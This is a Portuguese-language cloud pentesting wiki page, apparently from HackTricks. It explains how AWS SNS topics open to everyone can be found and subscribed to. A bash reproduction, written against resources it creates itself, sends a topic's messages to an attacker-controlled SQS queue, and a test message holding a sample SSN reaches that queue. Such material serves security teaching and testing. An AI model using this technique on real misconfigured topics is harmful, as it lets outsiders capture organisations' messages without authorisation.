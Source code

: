 # AWS - SNS Unauthenticated Enum

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Para mais informações sobre SNS consulte:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### Aberto a todos

Quando você configura um tópico SNS pelo console web, é possível indicar que **Todos podem publicar e se inscrever** no tópico:

<figure><img src="../../../../images/image (212).png" alt=""><figcaption></figcaption></figure>

Portanto, se você **encontrar o ARN dos tópicos** dentro da conta (ou brute forcing nomes potenciais de tópicos) você pode **verificar** se consegue **publicar** ou **se inscrever** neles.

Isso seria equivalente a uma política de recurso do tópico SNS permitindo `sns:Subscribe` para `*` (ou para contas externas); qualquer principal pode criar uma assinatura que entrega todas as mensagens futuras do tópico para uma fila SQS que possua. Quando o proprietário da fila inicia a assinatura, nenhuma confirmação humana é requerida para endpoints SQS.

<details>
<summary>Reprodução (us-east-1)</summary>
```bash
REGION=us-east-1
# Victim account (topic owner)
VICTIM_TOPIC_ARN=$(aws sns create-topic --name exfil-victim-topic-$(date +%s) --region $REGION --query TopicArn --output text)

# Open the topic to anyone subscribing
cat > /tmp/topic-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"OpenSubscribe","Effect":"Allow","Principal":"*","Action":"sns:Subscribe","Resource":"$VICTIM_TOPIC_ARN"}]}
JSON
aws sns set-topic-attributes --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --attribute-name Policy --attribute-value file:///tmp/topic-policy.json

# Attacker account (queue owner)
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name attacker-exfil-queue-$(date +%s) --region $REGION --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Allow the victim topic to send to the attacker queue
cat > /tmp/sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowVictimTopicSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$ATTACKER_Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$VICTIM_TOPIC_ARN"}}}]}
JSON
aws sqs set-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attributes Policy="$(cat /tmp/sqs-policy.json)"

# Subscribe the attacker queue to the victim topic (auto-confirmed for SQS)
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --protocol sqs --notification-endpoint "$ATTACKER_Q_ARN" --query SubscriptionArn --output text)

# Validation: publish and receive
aws sns publish --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --message {pii:ssn:123-45-6789}
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --query Messages[0].Body --output text
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
